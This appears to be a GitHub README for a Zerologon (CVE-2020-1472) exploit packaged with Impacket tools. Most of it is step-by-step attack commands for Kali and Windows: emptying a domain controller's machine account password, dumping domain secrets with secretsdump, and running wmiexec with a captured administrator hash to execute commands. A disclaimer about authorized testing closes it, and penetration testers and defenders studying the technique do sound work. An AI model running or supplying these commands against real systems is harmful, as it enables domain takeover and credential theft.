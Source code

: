 # Zerologon and Impacket Combination Exploit (CVE-2020-1472)

This repository contains an updated implementation (2024) of the Zerologon exploit combined with Impacket tools to exploit CVE-2020-1472 (Zerologon). This exploit targets Windows Server environments to manipulate machine account passwords and perform lateral movement.

## Features
- Exploits CVE-2020-1472 (Zerologon) to set the target's machine account password to an empty string.
- Leverages Impacket tools for dumping credentials and executing commands on the victim machine.

## Requirements
1. Python 3.x
2. Install the required dependencies by running:
   ```bash
   pip install -r requirements.txt
   ```

## Usage

### Example Scenario
- **Victim**: Windows Server 2016
- **Attacker**: Kali Linux (or Windows system)

### Exploit Commands (Kali Linux)
1. Set the machine account password to an empty string:
   ```bash
   python3 set_empty_pw.py WIN-C9PAHHGJN91 192.168.40.145
   ```
2. Dump secrets from the Domain Controller:
   ```bash
   python3 secretsdump.py -just-dc tancongmang/WIN-C9PAHHGJN91\$@192.168.40.145
   ```
3. Execute commands on the victim machine:
   ```bash
   python3 wmiexec.py tancongmang/administrator@192.168.40.145 -hashes aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4
   ```

### Exploit Commands (Windows Attacker)
1. Set the machine account password to an empty string:
   ```cmd
   python set_empty_pw.py WIN-C9PAHHGJN91 192.168.40.145
   ```
2. Dump secrets from the Domain Controller:
   ```cmd
   python secretsdump.py -just-dc "tancongmang/WIN-C9PAHHGJN91$@192.168.40.145"
   ```
3. Execute commands on the victim machine:
   ```cmd
   python wmiexec.py tancongmang/administrator@192.168.40.145 -hashes aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4
   ```

## Notes
- Replace `WIN-C9PAHHGJN91` and `192.168.40.145` with the actual hostname and IP address of the target.
- Ensure you have proper authorization before using this tool.
- This tool is for educational and penetration testing purposes only.

## Disclaimer
Use this tool responsibly. Unauthorized use of this tool to exploit systems without explicit permission is illegal and unethical. The authors are not responsible for any misuse or damage caused by this tool.
